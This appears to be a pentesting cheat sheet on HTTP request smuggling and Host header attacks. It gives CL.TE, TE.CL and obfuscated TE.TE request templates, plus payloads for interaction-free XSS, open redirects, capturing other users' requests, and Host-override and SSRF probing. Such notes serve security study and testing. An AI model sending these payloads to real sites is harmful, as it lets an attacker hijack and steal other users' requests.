 # HTTP

## HTTP Smuggling

A smuggling vulnerability happens beacuse there are multiple ambiguous ways to define the length of an HTTP request the `Content-Length` header and the `Transfer-Encoding` header that is used to define the total length of a message split in chunked requests. Clients and servers may parse these headers differently and allow to include unexpected code in a HTTP request

Example of a chunked request

```
POST ... HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b    #start delimiter
<body>
0    #end delimiter
```

#### CL.TE Exploit

Front end uses `Content-Length` and back end uses `Transfer-Encoding`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### TE.CL Exploit

Front end uses `Transfer-Encoding` and back end uses `Content-Length`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED 
0
[\r\n\r\n]
```

#### TE.TE Exploit

Both the client and the server use `Transfer-Encoding` but one of them can be tricked to not parse the header by obfuscating it

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[\t]chunked
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

### Reflected XSS

Allows to easily target an HTTP header and body. When a user sends his request it will be appended to the malicious smuggled request and will trigger the XSS vulnerability without requiring interaction

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET / HTTP/1.1
<header>: <XSS>
Foo: X
```

### Open redirect

Allows to redirect the user to an arbitrary site by overwriting the `Host` header

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: <redirect to>
Foo: X
```

### Reflect a user's request as value of an argument

Allows to steal a HTTP request from a user and print it as the value of a parameter in a GET or POST request

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
<req param>=
```

For instance if the target request is like `/save?username=usr&msg=text` it is possible to steal the next user's request with the following payload and navigating to a point in the site where the msg parameter is displayed

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
/save?username=usr&msg=
```

## Host Header Attacks

The host header is used to inform balancers and front end server to where to redirect the user. By tampering this header it is possible to perform SSRF attacks. To find vulnerabilities in how the Host header is parsed by using the following steps

* Send an arbitrary host
* Check for host validation where only the url is validated and not the port `hostsite.com:evil`
* Try to send a request with an url as part of an accepted subdomain `evil-hostsite.com` or `evilhostsite.com`
* Duplicate the Host header
* Add indentation before or after the header such as tabs spaces and \n
* Sending the request to a full url instead of a relative one may lead the server to parse the header differently

### Header overwrite

It is possible to overwrite the value of Host by adding one on the following headers to the request

```
X-Forwarded-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

### SSRF

Controlling the Host header allows to scout the internal network of the target machine in order to find other servers. To verifiy the vulnerability replace the Host value with the url of a server you control. If you receive a hit from the target machine or another one in the same network then the servers are vulnerable and you can use bruteforce or dictionary attacks to locate new machines. If the response is a redirect (3XX) then the machine with the given hostname or ip address exists
